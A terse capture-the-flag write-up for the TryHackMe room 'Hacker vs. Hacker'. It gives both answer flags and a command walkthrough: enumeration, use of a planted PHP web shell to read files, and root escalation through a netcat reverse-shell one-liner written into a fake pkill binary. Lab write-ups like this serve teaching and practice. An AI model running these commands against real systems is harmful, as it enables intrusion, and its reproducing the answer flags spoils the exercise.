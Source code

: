 # <div align="center">[Hacker vs. Hacker](https://tryhackme.com/r/room/hackervshacker)</div>
<div align="center">Someone has compromised this server already! Can you get in and evade their countermeasures?</div>

<div align="center">
<img src="https://github.com/user-attachments/assets/67671f1b-2ffa-4036-b8d7-3f0abc76a89f" height=""></img>
</div>

## Task 1. Get on and boot them out!

The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

### What is the user.txt flag?
```
thm{af7e46b68081d4025c5ce10851430617}
```
### What is the proof.txt flag?
```
thm{7b708e5224f666d3562647816ee2a1d4}
```

### User flag
```
nmap -sC -sV <IP>
gobuster dir --url http://<IP> -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 32 -x txt,php,html
# http://<IP>/upload.php
# http://<IP>/cvs/shell.pdf.php
http://<IP>/cvs/shell.pdf.php?cmd=whoami
http://<IP>/cvs/shell.pdf.php?cmd=cat /home/lachlan/user.txt
ssh lachlan@<IP>
```

### Root Flag
```
http://<IP>/cvs/shell.pdf.php?cmd=ls -la /home/lachlan
http://<IP>/cvs/shell.pdf.php?cmd=cat /home/lachlan/.bash_history
http://<IP>/cvs/shell.pdf.php?cmd=cat /etc/cron.d/persistence
echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <my_own_IP> 1234 >/tmp/f" > /home/lachlan/bin/pkill; chmod +x /home/lachlan/bin/pkill
nc -lvnp 1234
cat /root/root.txt
```

